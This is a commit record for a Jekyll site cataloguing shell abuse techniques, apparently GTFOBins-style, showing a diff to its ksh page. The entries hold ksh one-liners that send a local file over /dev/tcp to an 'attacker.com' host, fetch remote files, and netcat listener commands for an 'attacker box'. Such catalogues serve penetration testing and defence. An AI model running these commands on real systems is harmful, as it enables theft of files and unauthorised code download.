

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/ksh.md, in a window 1280 px wide. Shown: the part 335-1250 px from the top of the page, without its empty margins (209-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1070 px from its top, so only the background shows below that.

Commit message:
Update ksh.md

```diff
--- a/_gtfoud/ksh.md
+++ b/_gtfoud/ksh.md
@@ -3,29 +3,17 @@ functions:
   file-upload:
     - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
         ksh -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
-    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
+    - description: Send local file using a TCP connection. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file.
       code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
         ksh -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_get
         ksh -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
             3<>/dev/tcp/$RHOST/$RPORT \
             | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
-    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
+    - description: Fetch remote file using a TCP connection. Run `nc -l -p 4444 < "file_to_send"` on the attacker box to send the file.
       code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_get
         ksh -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
 ---
```
